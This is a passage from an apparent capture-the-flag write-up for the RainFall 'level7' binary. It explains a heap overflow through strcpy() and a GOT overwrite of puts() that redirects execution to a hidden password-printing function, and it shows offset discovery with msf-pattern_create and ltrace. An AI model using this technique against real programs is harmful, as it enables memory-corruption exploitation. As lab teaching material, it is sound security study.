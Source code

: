 This prints the contents of the buffer `c` (where the password is stored) and the current timestamp. This confirms that the password is read but not shown, unless we force execution into this `m()` function.

### Summary of What We've Learned So Far

* Two heap buffers `a[1]` and `b[1]` receive unsanitized user input via `strcpy()`.
* These buffers are allocated consecutively, so overflowing `a[1]` lets us control `b[1]`.
* If we overwrite `b[1]` to point to the GOT entry of a function (e.g., `puts`), we can then overwrite that function pointer.
* The hidden `m()` function reveals the password, this becomes our target.

This code is insecure because it allows out-of-bounds writes across separately allocated chunks on the heap, with no bounds checking. By overwriting a pointer used in a later `strcpy()`, we gain write-what-where capabilities, perfect for GOT overwrite attacks.

Next, we’ll use this knowledge to craft our strategy and calculate the exact overwrite offset.

---

## Strategy: Overwrite a Function Pointer

Now that we understand the structure, here’s the attack plan:

* Overflow the first buffer (pointed to by `a[1]`) with a precisely calculated number of bytes to reach and overwrite `b[1]`. We'll use Metasploit's tools to determine this exact offset in the next section.
* Place the address of `puts()`’s GOT entry into `b[1]`
* Use `argv[2]` to supply the replacement function address, i.e., the address of `m()`

This setup causes the second `strcpy()` to write the address of `m()` into the GOT entry for `puts()`. So when `puts("~~")` is called, it actually calls `m()`, which reveals the password.

---

## Step 1: Find the Overflow Offset&#x20;

We'll take a simple and intuitive approach using `ltrace` combined with Metasploit’s pattern tools. This makes it easy to visualize where our input lands in memory and calculate the overflow offset.

First, generate a unique pattern:

```bash
~/RainFall/level7 main > msf-pattern_create -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

Then, run the binary using `ltrace`:

```bash
level7@RainFall:~$ ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
__libc_start_main(0x8048521, 2, 0xbffff794, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                   = 0x0804a008
malloc(8)                                                   = 0x0804a018
malloc(8)                                                   = 0x0804a028
malloc(8)                                                   = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...)   = 0x0804a018
strcpy(0x37614136, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
```
